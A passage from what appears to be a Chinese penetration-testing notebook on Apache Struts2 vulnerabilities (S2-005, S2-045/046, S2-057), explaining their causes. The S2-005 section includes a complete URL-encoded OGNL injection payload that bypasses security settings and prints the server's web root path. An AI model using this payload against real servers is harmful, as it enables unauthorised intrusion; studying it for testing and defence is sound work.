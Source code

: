 S2-005 是由于官方在修补 S2-003不全面导致绕过补丁造成的。我们都知道访问 Ognl 的上下文对象必须要使用#符号， S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023 或者8进制\43 绕过。S2-005 则是绕过官方的安全配置（禁止静态方法调用和类方法执行）再次造成漏洞。

```
('%5C43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('%5C43context[%5C'xwork.MethodAccessor.denyMethodExecution%5C']%5C75false')(b))&('%5C43c')(('%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET')(c))&(g)(('%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('%5C43xman.getWriter().print(%22S2-005dir--***%22)')(d))&(i95)(('%5C43xman.getWriter().println(%5C43req.getRealPath(%22\%22))')(d))&(i99)(('%5C43xman.getWriter().close()')(d))
```

![s2-005](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/s2-005.png)

### 03-S2-045/S2-046 漏洞

Struts2使用基于 Jakarta 的文件上传 Multipart解析器，如果该 Content-Type 值无效，则会引发异常，然后将其用于向用户显示错误消息，并对异常信息进行 OGNL 表达式处理，可以构造恶意Content-Type 值执行 RCE 攻击。 S2 -046 与 S2-045 漏洞的引发原因一致，只是他们的利用位置不一样。

![s2-045&6](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/s2-045&6.png)

### 04-S2-057 漏洞

2018年 8 月 22 日， Apache Strust2 发布最新安全公告， Apache Struts2 存在远程代码执行的高危漏洞S2-057 。该漏洞是由于在 Struts2 开发框架中使用namespace 功能定义 XML 配置时， namespace 值未被设置且在上层动作配置（ Action Configuration ）中未设置或用通配符 namespace ，可能导致远程代码执行。同理， URL 标签未设置 value 和 action 值且上层动作未设置或用通配符 namespace 时也可能导致远程代码执行。
